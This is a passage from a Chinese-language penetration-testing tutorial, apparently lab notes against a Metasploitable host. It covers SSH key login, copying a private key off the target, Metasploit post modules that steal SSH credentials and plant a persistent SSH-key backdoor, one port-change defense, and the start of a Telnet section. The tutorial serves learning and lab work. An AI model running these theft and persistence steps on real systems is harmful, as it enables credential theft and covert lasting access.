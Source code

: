 ### [](#%E4%BD%BF%E7%94%A8-rsa-%E5%AF%86%E9%92%A5%E5%BB%BA%E7%AB%8B-ssh-%E8%BF%9E%E6%8E%A5)使用 RSA 密钥建立 SSH 连接

配置：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br>ssh-keygen<br>cd /home/kali/.ssh<br>ls<br>cat id_rsa.pub > authorized_keys<br>scp msfadmin@ip:/home/msfadmin/.ssh/id_rsa ./<br>sudo vim /etc/ssh/sshd_config<br>PasswordAuthentication no<br>sudo /etc/init.d/ssh restart<br>``` |

连接：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>ssh -i id_rsa username@ip<br>``` |

### [](#%E7%AA%83%E5%8F%96-ssh-%E5%AF%86%E9%92%A5)窃取 SSH 密钥

已获得 meterpreter 会话，窃取 SSH 密钥

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use auxiliary/scanner/ssh/ssh_login 获取会话<br>use post/multi/gather/ssh_creds<br>set session 1<br>run<br>``` |

### [](#ssh-%E5%AF%86%E9%92%A5%E6%8C%81%E4%B9%85%E6%80%A7%E5%90%8E%E9%97%A8)SSH 密钥持久性后门

已获得 meterpreter 会话，留下 SSH 密钥持久性后门

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>use auxiliary/scanner/ssh/ssh_login 获取会话<br>use post/linux/manager/sshkey_persistence<br>set session 1<br>run<br>``` |

### [](#%E9%98%B2%E5%BE%A1-1)防御

#### [](#%E4%BF%AE%E6%94%B9%E9%BB%98%E8%AE%A4%E7%AB%AF%E5%8F%A3)修改默认端口

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>sudo vim /etc/ssh/sshd_config<br>port 22222<br>sudo /etc/init.d/ssh restart<br>``` |

## [](#telnet-%E6%BC%8F%E6%B4%9E)Telnet 漏洞

### [](#telnet-%E7%AE%80%E4%BB%8B)telnet 简介

Telnet 协议是 TCP/IP 协议族中的一员，是 Internet 远程登录服务的标准协议和主要方式。它为用户提供了在本地计算机上完成远程主机工作的能力。在终端使用者的电脑上使用 telnet 程序，用它连接到服务器。终端使用者可以在 telnet 程序中输入命令，这些命令会在服务器上运行，就像直接在服务器的控制台上输入一样。可以在本地就能控制服务器。要开始一个 telnet 会话，必须输入用户名和密码来登录服务器。Telnet 是常用的远程控制 Web 服务器的方法。

### [](#banner-%E4%BF%A1%E6%81%AF-1)banner 信息
